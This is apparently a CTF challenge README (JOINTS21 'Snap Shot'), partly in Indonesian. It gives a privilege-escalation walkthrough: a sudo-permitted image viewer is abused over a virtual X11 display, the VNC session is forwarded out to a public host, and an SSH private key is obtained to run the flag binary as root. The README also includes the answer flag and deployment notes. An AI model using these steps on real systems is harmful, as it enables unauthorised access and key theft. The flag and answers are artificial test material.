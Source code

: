 ## Judul Soal
Snap Shot

## Deskripsi Soal

> I was told by someone that he bought me a gift. Unfortunately, I need to have a proper access to grab it <br><br>`nc ip port`<br><br>Note: The service used Paramiko SSH module instead of traditional SSH prompt

---
## Proof of Concept

- Log in using CTFd account to get access to remote server
- By checking user privileges, we found that we can execute `display` as `joints` user
    ```sh
    $ sudo -l
    User user may run the following commands on 76a6f93ed1a9:
        (joints) NOPASSWD: /usr/bin/display
    ```
- Since there're no X11 Display, we need to create ones. Note, since it's using `paramiko` the `&` character may not work as expected. Fortunately, the command still executed
    ```sh
    $ Xvfb :4000 -listen tcp -ac -screen 0 512x512x24 &
    ```
- Since `display` only accept image binary, we need to download an image to the server
    ```sh
    $ wget -O test.png https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png
    ```
- Execute `display` on `test.png` using `:4000` as virtual X11 display & `joints` user. These step can also be replaced by using an external remote display from a Public IP
    ```sh
    $ DISPLAY=:4000 sudo -u joints display test.png &
    ```
- Forward X11 display as VNC traffic
    ```sh
    $ x11vnc -display :4000 -bg -forever -nopw -quiet -listen localhost -xkb
    ```
- Then, simply forward VNC traffic to Public IP using `ngrok` or `SSH Forward`
- Connect to VNC remote server & using `File` prompt, go to `/home/joints/.ash_history` that contains a history of `id_rsa` being downloaded. There's also an `id_rsa` on `/home/joints/.ssh/id_rsa` but it can't be copy-paste-ed
- Download `id_rsa` from the external link & remote ssh as `joints` user from `localhost`. If we check the privileges again we found that `joints` user has privileges to execute `/root/get_flag`
    ```sh
    $ ssh -o "StrictHostKeyChecking no" -p 2222 -i id_rsa joints@localhost sudo -l

    User joints may run the following commands on 76a6f93ed1a9:
        (root) NOPASSWD: /root/get_flag
    ```
- Finally, just execute `/root/get_flag` using `joints` user
    ```sh
    $ ssh -o "StrictHostKeyChecking no" -p 2222 -i id_rsa joints@localhost sudo /root/get_flag

    JOINTS21{forw4rding_x11_traffics_4re_k1nda_fun_e1683a}
    ```
---

## Catatan deployment

Konfigurasi `docker` ada di directory `server`. Ganti `port` & limit mem-cpu sesuai kebutuhan.

Note, service nya masih hasil `trial & error`, jadi kemungkinan bisa broken sewaktu2 :'v

```sh
# Build
$ docker-compose build

# Deploy
# Bebas pilih salah satu

# Non-swarm mode
$ docker-compose up -d wrapper
$ docker-compose --compatibility scale snapshot=15

# Swarm mode
$ docker stack deploy -c docker-compose.yml snapshot
$ docker service scale snapshot_snapshot=15 

```

## Service Test

Script test ada di directory `test`. Misal ada node yang `error` bisa `restart service` atau re-`scale` lagi.

```sh
Sending command on test_soal15 -> Work
Sending command on test_soal10 -> Work
Sending command on test_soal3 -> Work
Sending command on test_soal7 -> Work
Sending command on test_soal11 -> Work
Sending command on test_soal2 -> Work
Sending command on test_soal8 -> Work
Sending command on test_soal14 -> Work
Sending command on test_soal13 -> Work
Sending command on test_soal6 -> Work
Sending command on test_soal1 -> Work
Sending command on test_soal9 -> Work
Sending command on test_soal12 -> Work
Sending command on test_soal5 -> Work
Sending command on test_soal4 -> Work
``` 

## Flag
JOINTS21{forw4rding_x11_traffics_4re_k1nda_fun_e1683a}
